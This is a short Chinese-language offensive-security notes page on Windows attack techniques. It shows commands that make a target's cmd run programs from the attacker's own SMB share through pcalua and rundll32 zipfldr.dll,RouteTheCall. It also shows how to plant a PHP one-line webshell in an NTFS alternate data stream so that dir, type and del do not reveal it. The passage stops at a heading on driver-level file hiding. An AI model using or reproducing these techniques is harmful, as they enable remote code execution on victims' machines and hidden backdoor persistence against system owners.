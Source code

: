 ### **pcalua** :

让对方cmd远程连接我们自己。

处理情况：
1.当前电脑的硬盘不能用
2.自己权限不高

```
pcalua -m -a \\[自己的ip]\[共享名]
```



### **zipfldr执行共享程序：**

让对方cmd直接执行我们电脑上的程序

```
rundll32.exe zipfldr.dll,RouteTheCall \\[自己的ip]\[共享名]\文件名
```



## 权限维持：

C盘下打开命令行。

利用一句话木马。



**ADS隐藏文件**：

```
echo ^<?php @eval($_POST['cmd']);?^> > index.php:haha.jpg
```

其实生成了一个不可见的index.php和haha.jpg——常规文件管理器、type命令、dir命令、del命令，都找不到haha.jpg



**访问方法**：
进入文件所在的目录

```
notepad index.php:haha.jpg 

或者
dir /r
查看文件信息
```



**如何删除haha.jpg**：
直接删除index.php



## 驱动级的文件隐藏：
